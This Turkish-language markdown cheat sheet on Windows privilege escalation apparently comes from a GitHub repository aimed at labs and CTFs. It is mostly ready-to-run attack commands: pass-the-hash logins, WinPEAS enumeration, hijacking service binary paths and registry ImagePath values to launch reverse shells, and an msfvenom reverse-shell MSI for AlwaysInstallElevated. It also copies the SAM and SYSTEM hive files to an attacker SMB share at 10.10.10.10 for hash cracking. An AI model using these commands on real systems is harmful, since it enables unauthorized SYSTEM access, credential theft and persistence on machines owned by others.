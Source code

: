 #Windows Privilege Escalation
***


**Windows'a bağlanmak için komutlar:**

- ```xfreerdp /u:USER /p:PASWORD /cert:ignore /v:MACHINE_IP```
- ```rdesktop -u USER -p PASWORD MACHINE_IP```
- ```pth-winexe -U 'USER%hash' //MACHINE_IP cmd.exe``` (hash NT:LM şeklinde belirtilmelidir.)
- ```winexe -U 'USER%PASSWORD' //MACHINE_IP cmd.exe```
- ```python3 psexec.py DOMAIN/USER:PASWORD@MACHINE_IP```
***

**Dosya paylaşımı için komutlar:**
- ```python3 -m http.server``` ile dinlendikten sonra, hedef üzerinde ```wget IP_ADRESI:PORT/DOSYA_ADI``` ile veya powershell varsa ```powershelliwr -Uri IP_ADRESI:PORT/DOSYA_ADI -Outfile ÇIKTI_DOSYASI``` şeklinde kullanılabilir.
- SMB dosya paylaşım servisi ile birçok Windows sürümü için ```impacket-smbserver DIZIN .``` komutu kali linux üzerinde çalıştırıldıktan sonra, hedef windows üzerinde komut satırından ```copy \\KALI_IP\DIZIN\DOSYA_ADI``` komutları ile dosya alınabilir. Burada **DIZIN** sizin belirlediğiniz herhangi bir isim olabilir. **DIZIN** ifadesinden sonra "**.**" ile kali üzerinde o an bulunulan dizin servis edilmiş olur ve istenirse klasör adı belirtilerek değiştirilebilir.
***
##*1. Enumeration with WinPEAS*
Winpeas daha sonra anlatılacak olan bir çok yöntemi sömürmek için gerekli açıklıkları bulmaktadır. Ayrıca sistemde hardcoded kayıtlı parolalar ve zamanlanmış görevler gibi yetki yükseltmeye yarayabilecek bilgileri de sunar.

- ```winpeas.exe``` #run all checks (except for additional slower checks - LOLBAS and linpeas.sh in WSL) (noisy - CTFs)
- ```winpeas.exe systeminfo userinfo``` #Only systeminfo and userinfo checks executed
- ```winpeas.exe notcolor``` #Do not color the output
- ```winpeas.exe domain``` #enumerate also domain information
- ```winpeas.exe wait``` #wait for user input between tests
- ```winpeas.exe debug``` #display additional debug information
- ```winpeas.exe log``` #log output to out.txt instead of standard output
- ```winpeas.exe -linpeas=http://127.0.0.1/linpeas.sh``` #Execute also additional linpeas check (runs linpeas.sh in default WSL distribution) with custom linpeas.sh URL (if not provided, the default URL is: https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh)
- ```winpeas.exe -lolbas```  #Execute also additional LOLBAS search check
***
##*2. Güvensiz Servis İzinleri*

Servislerin konfigürasyonlarını değiştirmeye izin verildiğinde ortaya çıkar ve servis başlangıç dosyaları değiştirilerek kullanılabilir. 

- ```accesschk.exe /accepteula -uwcqv USER SERVIS_ADI``` ile kullanıcının servis üzerindeki izinleri sorgulanır.
- ```sc qc SERVIS_ADI``` ile servisin hangi yetkilerle çalıştığı ve diğer bilgileri görüntülenir.
- ```sc config SERVIS_ADI binPath="C:\PrivEsc\reverse.exe"``` komutu ile reverse shell dosyasının komutu servis binary path'i olarak belirlenir ve ardından ```sc start SERVIS_ADI``` ile servis başlatılarak reverse shell alınabilir. 
Bu işlemler yapılırken servis ayarlarını değiştirmek ve başlatma gibi yetkilerin olunduğundan emin olunmalıdır.

##*3. Unquoted Service Path*
Bu açıklık servis dizinleri " " işaretleri arasında belirlenmemişse ortaya çıkmaktadır. ' ' veya " " işaretleri arasında yazılmayan servis dizinlerinde servis çalıştırılırlen her boşluktan sonra .exe konularak dosya aranmakta ve boşluk içeren dizinlerin bir üstüne yazma hakkımız varsa buraya doğru isimdeki reverse shell konularak yetki yükseltilebilir.

- **C:\Program Files\Unquoted Path Service\Common Files\servis.exe** dosyasında ```C:\Program Files\Unquoted Path Service``` klasörüne yazma hakkımız varsa Common.exe isimli bir reverse shell oluşturup servis haklarıyla çalışmasını sağlayabiliriz. Bu durumda ```net start SERVIS_ADI``` komutuyla servis yeniden başlatıldığında **Common.exe** isimli shell dosyamız çalışacaktır.
- Önce ```accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"``` komutuyla yazma izni kontrol edilir ve daha sonra ```copy reverse_shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"``` komutu ile shell dosyası ilgili dizine koyulur.

##*4. Zayıf Registry İzinleri*

- ```sc qc regsvc``` komutu ile regsvc servisinin sistem haklarıyla çalıştığı görülür.
- ```accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc``` komutu ile izinler kontrol edilir. **NT AUTHORITY\INTERACTIVE** yazıyorsa **INTERACTIVE** ifadesi tüm giriş yapmış kullanıcıları kastetmektedir ve bu durumda da tüm kullanıcılar için izin var demektir.
- ```reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse_shell.exe /f``` komutu yardımıyla regsvc servisinin binary dosyasının yeri reverse_shell dosyasının yeri olarak belirlenir ve ```net start regsvc``` ile yeniden başlatıldığında reverse shell başlatılmış olur.

##*5. Güvensiz Servis Exe İzni*
- ```sc qc SERVIS_ADI``` ile servisin hakları kontrol edilir.
- ```accesschk.exe /accepteula -quvw "C:\Program Files\Service\SERVIS.exe"``` ile servis exe dosyasının yazılabilir olduğu doğrulanır.
- Daha sonra servis exe dosyası ```copy reverse.exe "C:\Program Files\Service\SERVIS.exe" /Y``` komutu yardımıyla reverse_shell.exe ile değiştirilir ve ```net start SERVIS_ADI``` ile yeniden başlatılır.

##*6. Otomatik Çalışan Programlar*

- ```reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run``` otomatik çalışan programlar kontrol edilir ve ```accesschk.exe /accepteula PROGRAM_PATH``` ile yazma iznimizin olduğu doğrulanır. Yazma iznimiz varsa ```copy``` komutuyla ilgili dosyanın üzerine reverse_shell yazılır ve hangi durumda çalışıyorsa, tetiklenmesi sağlanır.

##*7. Always Install Elevated*
Bu izin msi uzatılı yükleme dosyalarının daima yüksek izinlerle çalıştırılıp programları yüklemesi için verilir. ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi``` komutuyla üretilen reverse_shell msi dosyası uzak sistemde çalıştırıldığında system haklarıyla shell alınır.
- İlk önce aşağıdaki kayıt defteri girdilerinden bu iznin bulunduğu doğrulanır.
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

- Ardından oluşturulan msi uzantılı shell dosyası doğrudan ```.\reverse.msi``` veya ```msiexec /quiet /qn /i C:\PrivEsc\reverse.msi``` yazılarak komut satırından çalıştırılabilir.

##*8. Kayıtlı Parolalar*
Çeşitli sebeplerle sisteme kaydedilmiş parolalar aranıp bulunabilir.

- Registry'de kayıtlı parolalar için: ```reg query HKLM /f password /t REG_SZ /s```
- Bellekte kayıtlı parolalar varsa: ```cmdkey /list``` komutu ile görülebilir. Ardından ```runas /savecred /user:admin C:\PrivEsc\reverse.exe``` çalıştırılabilir. Reverse shell yerine CMD'de çalıştırılabilir.
- SAM ve SYSTEM dosyaları varsa ve okunabiliyorsa: ```copy C:\Windows\Repair\SAM \\10.10.10.10\kali\``` ve ```copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\``` komutlarıyla kali'ye gönderilir. Ardından kali üzerinde ```samdump2 SYSTEM SAM``` ile hash'ler elde edilir ve kırılmaya çalışılabilir.

##*9. Zamanlanmış Görevler*
Zamanlanmış görev tespit edildiyse ve dosyalar değiştirilebiliyorsa yetki yükseltmek için kullanılabilir.
Eğer dosyaya yazma iznimiz varsa ```echo .\reverse.exe >> C:\Programs\SCHEDULED_TASK.ps1``` komutu ile dosya içeriği değiştirilebilir. 

##*10. Güvensiz GUI Uygulamaları*
Bu uygulamalar belirli haklarla çalışıyorsa ve dosya çalıştırmak için girdi alıyorsa, cmd.exe veya powershell.exe dosyaları girdi olarak verilerek o kullanıcının haklarıyla çalıştırılabilir.

##*11. TokenImpersonation İzinleri ve Saldırıları*
Eğer objeler üzerinde SEImpersonation izinlerimiz varsa o kullanıcı haklarıyla belirli işlemler yapılabilir. **SeImpersonatePrivilege** veya **SeAssignPrimaryTokenPrivilege** gibi izinler bulunuyorsa bu işlem yapılabilir. ```whoami /priv``` komutuyla kullanıcı izinleri kontrol edilebilir. Daha sonra Impersonation izni PSExec gibi araçlarla sömürülebilir. 

- ```C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe``` komutuyla *C:\PrivEsc\reverse.exe* dosyası *"nt authority\local service"* kulanıcısı impersonate (taklit) edilerek çalıştırılabilmektedir. ***(Dosyaların tam yolunun verilmesi, sistem kullanıcısının dosyayı bulması için önemlidir.)***
- Burada yukarıdaki komutun çalışabilmesi ***SeImpersonatePrivilege*** veya ***SeAssignPrimaryTokenPrivilege*** gibi bir iznin kullanıcıya verilmiş olmasından kaynaklanmaktadır.